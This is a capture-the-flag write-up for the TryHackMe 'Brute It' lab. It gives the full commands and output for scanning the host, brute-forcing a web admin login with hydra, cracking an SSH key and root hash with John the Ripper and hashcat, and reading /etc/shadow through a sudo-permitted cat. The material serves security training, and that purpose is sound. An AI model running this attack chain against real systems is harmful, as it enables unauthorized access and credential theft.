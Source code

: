 ## Brute It | TryHackMe

This is the link for the room [Brute It](https://tryhackme.com/room/bruteit)

<img src="https://user-images.githubusercontent.com/67650329/217137381-3c67f2a8-a1bb-4b77-9882-53356133e60c.png" width="250px" align="center">

---
Learn how to brute, hash cracking and escalate privileges in this box!

Let's Go.

`nmap -sS -sV [TARGET]`

- -sS = TCP SYN scan.
- -sV = Version of services.

This is the result for the scanning with nmap tools.
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-11 00:07 EST
Nmap scan report for TARGET
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port open:

- 22 = SSH.
- 80 = http.

After we got the open port. We can search directory with gobuster tools.

`gobuster dir -u [TARGET] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -n -t 250`

- -u = Url Target.
- -w = Wordlist.
- -f = Nospam.
- -n = No Status just result (Nospam).
- -t = Thread.

This is the result for the scanning with gobuster tools.
```
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.164.83
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Add Slash:               true
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/01/11 00:09:01 Starting gobuster in directory enumeration mode
===============================================================
/admin/               [Size: 671]
```
We got the admin login page. After that i think we can try use burp suite.
```
POST /admin/ HTTP/1.1
…
…
…
user=asd&pass=asd
```
We can see user and pass is display on request.

So we can try brute force it use hydra.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz [TARGET] http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"`

- -l = Specify a username.
- -P = Wordlist.
- http-post-form = Specify the type of login form used in a web application attack.

This is the result for the brute force with hydra tools.
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-11 00:19:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.164.83:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[80][http-post-form] host: 10.10.164.83   login: admin   password: x***r
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-11 00:20:32
```
We got the password and We are in to the admin dashboard.

<img src="https://user-images.githubusercontent.com/67650329/217141154-4bb95800-9762-4daa-b71a-08cfac88bca3.png" width="450px" align="center">

We can see on admin dashboard have RSA Private Key.

We can download it and crack, use John The Ripper tools.
```
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/home/kali/Downloads/rockyou.txt id_rsa.hash
Press 'q' or Ctrl-C to abort, almost any other key for status
r***l     (id_rsa)
```
BOOM!!!. We got the password.

We can try login into the ssh.

`ssh -i id_rsa john@[TARGET]`
```
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{***}
```
After we get in we got the user.

And after that we can try use command `sudo -l`
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
We got the directory to exploit `/bin/cat`

We can use [gtfobinds](https://gtfobins.github.io/gtfobins/cat/) to exploit the directory.
```
john@bruteit:/$ sudo cat /etc/shadow
root:$6$zdk0.j***L.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
…
…
```
We got the root hash on `/etc/shadow`

Now we must crack the password using hashcat.

`hashcat -m 1800 text.txt rockyou.txt`

```
…
…
$6$zdk0.j***L.:f***l
…
…
```
We got the root password.

And we can try login it.
```
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# cat /root/root.txt
```
We got the root :)

Thank you for reading 👋.

---
